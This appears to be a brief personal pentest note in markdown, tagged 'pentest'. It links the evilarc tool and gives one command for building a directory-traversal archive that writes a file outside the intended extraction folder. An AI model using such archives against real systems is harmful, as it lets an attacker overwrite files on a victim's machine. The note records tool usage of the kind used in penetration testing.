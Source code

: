 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/ptoomey3/evilarc


Create a directory traversal archive 
````bash
./evilarc.py -f mal.tar.gz -d 3 -o unix util.py
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
